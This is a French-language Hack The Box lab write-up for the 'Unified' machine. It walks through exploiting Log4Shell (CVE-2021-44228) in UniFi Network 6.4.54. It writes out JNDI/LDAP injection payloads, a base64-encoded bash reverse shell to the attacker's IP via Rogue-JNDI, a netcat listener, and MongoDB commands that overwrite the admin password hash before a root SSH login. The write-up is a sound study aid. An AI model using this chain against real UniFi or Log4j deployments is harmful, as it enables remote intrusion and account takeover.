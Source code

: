 ## Lab Title: Unified
- Date: 2025-09-27
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Apprender comment exploiter **Log4j**

### 2. Findings
1. Exécuter: `Nmap`:
    - `nmap $ip -Pn --top-ports=10000`
    - On a trouvé ces ports ouverts:
    ```code
        PORT     STATE SERVICE
        22/tcp   open  ssh
        6789/tcp open  ibm-db2-admin
        8080/tcp open  http-proxy
        8443/tcp open  https-alt
        8843/tcp open  unknown
        8880/tcp open  cddbp-alt
    ```
2. Quand, on a analysé le port: `nmap $ip -Pn -sV -p T:8443`
    - On a trouvé le logiciel: `ssl/nagios-nsca Nagios NSCA`
    - Aussi, on a analysé: `https://10.129.152.123:8443` et on a trouvé: `Unifi Network` fonctionne avec la version: `6.4.54`

3. Cette version est associé avec la vulnerabilité: `CVE-2021-44228`

4. Cette vulnerabilité est associé avec **Apache Log4j** et l'attaque: **Remote Code Execution**
    - **Apache Log4j** >> une bibliothique où les dévelopeurs peuvent stocker les logs et les données differentes.
    - En cas particuliers, ce log peut venir comme `User Input` et il peut contenir les caractéristiques spéciales.
    - Enfin, le methode **Java**: **lookup** est appelé pour exécuter ce `input` >> `remote code execution`

5. Cette injection est arrivé avec ce protocole: `LDAP`

**Web Proxies:**
    - On utilise **Burp Suite** pour modifier `POST` demande
    - Dans le site Web, on fait login `admin:admin` et capture le `HTTP POST` avec `Burp Suite`
    - Utilisant `Repeater`, on place une modification dans la section: `remember`
        - `"${jndi:ldap://10.10.14.77/whatever"` >> c'est notre **payload**
        - **JNDI** >> Java Naming Directory Interface API:
            - En appelant cet API, les applications localisent des ressources et d'autres objets de programme.
            - Une ressource est un objet de programme qui fournit des connexions
            - à des systèmes tels que des serveurs de base de données et de systèmes de messagerie.
    - Après, on peut utiliser `traffic interception` pour vérifier si le serveur veut faire des connexions avec nous dans le port: `389` (LDAP)

6. On peut utiliser `tcpdump` pour montrer que le serveur a une vulnerabilité:
    - `sudo tcpdump -i tun0 port 389` et Appuyer sur le bouton `Send` dans le `Repeater` de `Burp Suite`
    - Après cela, on peut voir la connexion de la machine victime à notre machine: Voilà, cela montre une vulnerabilité:
    ```code
        snapshot length 393223 bytes 10:23:32.428116, IP 10.129.151.153.56242 > 10.10.14.77.ldap:
    ```

7. On doit installer `Open-JDK` et `Maven` pour creer une payload:
    - On a l'outil appelé: **Rogue-JNDI** >>
        - `git clone https://github.com/veracode-research/rogue-jndi`
        - `mvn package` >> pour construire le package.

8. Pour obtenir le `reverse shell`, on doit donner notre payload à **Rogue-JNDI** serveur:
    - `echo 'bash -c bash -i >&/dev/tcp/10.10.14.74/3828 0>&1' | base64` >> notre payload
    - `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"`

    - Pour capturer `reverse shell` on commence **NetCat**: `nc -lvnp 3828`
    - Dans le `Burp Suite` on change le payload: `${jndi:ldap://10.10.14.77:1389/o=tomcat}`
    - On a obtenu le `reverse shell`

**Privelege Escalation:**
9. Quand on a analysé: `ps aux | grep mongo` >> le port `27117` est ouvert et fonctionne bien
    - On essaye pour obtenir le mot de passe de l'Administrator de `Mongo Database`
        - `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
            - **ace** >> `le nom du base de données par défaut pour l'application: Unifi`
            - **eval** : évaluer JSON script ici
    - On voit le mot de passe de l'Administrator: mais il est dans `x_shadow` >> on ne peut pas cracker  cela:
        - `$6$dksoidsiosid.L....`
    - **Donc, on peut remplacer ce mot de passe par un nouveau mot de passe:**
    - Pour cela, on utilise `mkpasswd` avec son nouveau mot de passe:
    - `mkpasswd -m sha-512 HelloMario`
        - Car `$6$` est un identifiant de `SHA-512`.

10. On fait un remplacement:
    ```don
        mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
    ```
    - Maintenant, on peut utiliser le compte de l'administrator avec son mot de passe: **administrator:HelloMario**
    - Dans le site Web, on fait login et il est possible de se connecter par **ssh**.
    - Et on a trouvé le mot de passe pour l'administrator: `NotACrackablePassword4U2022`

11. `ssh root@10.129.151.153` avec le mot de passe au-dessus. Voilà, c'est fini!

### 3. Idea
1. Log4j Exploitation.
